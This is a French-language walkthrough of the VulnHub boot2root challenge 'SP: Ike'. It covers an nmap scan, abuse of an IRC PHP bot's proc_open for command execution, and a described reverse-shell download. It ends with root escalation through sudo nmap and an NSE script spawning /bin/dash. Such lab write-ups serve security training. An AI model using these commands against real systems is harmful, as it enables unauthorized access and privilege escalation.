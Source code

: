 ```yaml
---
title: "Solution du CTF SP: Ike de VulnHub"
tags: [CTF, VulnHub]
--- 
```


[SP: ike](https://www.vulnhub.com/entry/sp-ike-v101,275/) est un CTF de type boot2root proposé sur VulnHub. La description est la suivante :

> Ike is a servant of something which also starts with "I" and has only three letters.

Hmm moi j'imagine plutôt IKE donc VPN mais on voit tout de suite que c'est plutôt IRC :

```
Nmap scan report for 192.168.56.76
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
6667/tcp open  irc     InspIRCd
| irc-info: 
|   server: irc.ike.local
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 2
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.1
|_  error: Closing link: (nmap@192.168.56.1) [Client exited]
```

On a un serveur *InspIRCd*. Aucun exploit n'est présent pour ce logiciel sur exploit-db comme quoi soit il est bien conçu soit il n'intéresse personne :D

Sur ma machine il ne me reste que Pidgin comme client supportant IRC alors on fera avec. Je créé le compte en spécifiant l'adresse IP du serveur puis je vais sur *Comptes > devloop@192.168.56.76 > voir le message du jour* qui m'affiche les infos suivantes :

```
- #############################################
- #               ####  #  #  ####            #     
- #               #  #  #  #  #  #            # 
- #               ###   ####  ###             #
- #               #     #  #  #               #
- #               #     #  #  #               #
- #############################################
- 
- Welcome to the PHP community IRC server where you can get help with your PHP code. 
- Also feel free to talk and share information about PHP in general. 
- Join the main channel at #php for a friendly chat!
- 
- Rules:
- * Don't ask to ask, just ask.
- * Don't paste code directly in the chat, use pastebin.
- * Don't ask the same question again if no one answers.
- * Don't flood the channel in general.
- * Run PHP commands through the PHP bot with !php <command>
- * Please don't try to abuse the bot.
- * Behave like an adult.
- 
- #############################################
- #############################################

```

Avec un client plus traditionnel j'aurais eu le message directement.

Il y a donc un bot sur le chan `#php`. On va causer un peu avec lui :

![VulnHub SP Ike PHP IRC bot](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/sp_ike/irc_phpbot.png)

`proc_open` est donc notre porte d'entrée. Je peux récupérer l'environnement qui en dit suffisemment long sur le compte qui fait tourner le bot :

```php
 !php proc_open("env",array(),$something);
```

```bash
HOME=/home/ike
LOGNAME=ike
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/ike
```

Je rappatrie un reverse-sshx64 dans le dossier courant puis l'exécute pour avoir mon shell et tunnel SSH.

```bash
ike@ike:/home/ike$ cat flag.txt 
cdca0db3c1d9a7290
ike@ike:/home/ike$ sudo -l
Matching Defaults entries for ike on ike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ike may run the following commands on ike:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/nmap
```

Un coup d'oeil à GTFObins plus tard :

```bash
ike@ike:/home/ike$ echo 'os.execute("/bin/dash")' > myscript 
ike@ike:/home/ike$ sudo /usr/bin/nmap --script=myscript

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-20 15:08 CET
NSE: Warning: Loading 'myscript' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # flag.txt
# d8f8254074369b6
```

Dans l'output çi-dessus on ne voit pas les commandes que je tape car je suppose que stdin n'est pas répété mais il s'agit des commandes `id`, `ls` et `cat`.

*Publié le 20 décembre 2022*
